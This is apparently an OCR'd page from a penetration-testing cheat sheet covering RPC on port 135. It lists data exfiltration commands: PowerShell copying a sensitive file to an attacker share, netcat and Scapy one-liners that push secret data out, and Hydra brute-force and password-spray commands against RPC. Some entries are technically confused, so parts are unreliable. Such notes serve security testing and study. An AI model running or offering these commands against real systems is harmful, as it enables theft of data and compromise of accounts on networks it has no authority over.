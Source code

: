 ### Data Exfiltration

#### Covert Data Exfiltration via RPC

*   **Tool:** \[\[Custom Scripts]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-Content C:\sensitive_data.txt | Out-File -FilePath "\\<attack_ip>\share\data.txt" }
    ```
* **Description:** Exfiltrates data by sending it over an RPC over HTTP connection, which may bypass traditional data loss prevention (DLP) measures.

#### Covert Data Exfiltration via RPC

*   **Tool:** \[\[Custom Scripts]], \[\[NetCat]]

    ```bash
    echo "secret_data" | nc <target_ip> 135

    nc <target_ip> 135 < secret_data.txt
    ```
* **Description:** Use RPC communications to covertly exfiltrate data from the target network.

#### Exfiltration via Dynamic Ports

*   **Tool:** \[\[Metasploit]], \[\[Scapy]]

    ```python
    send(IP(dst="<target_ip>")/TCP(dport=49152)/Raw(load="exfil_data"))
    ```
* **Description:** Leverage dynamically assigned RPC ports to exfiltrate data, making it harder to detect.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra rpc://<target_ip> -s 135 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra rpc://<target_ip> -s 135 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.
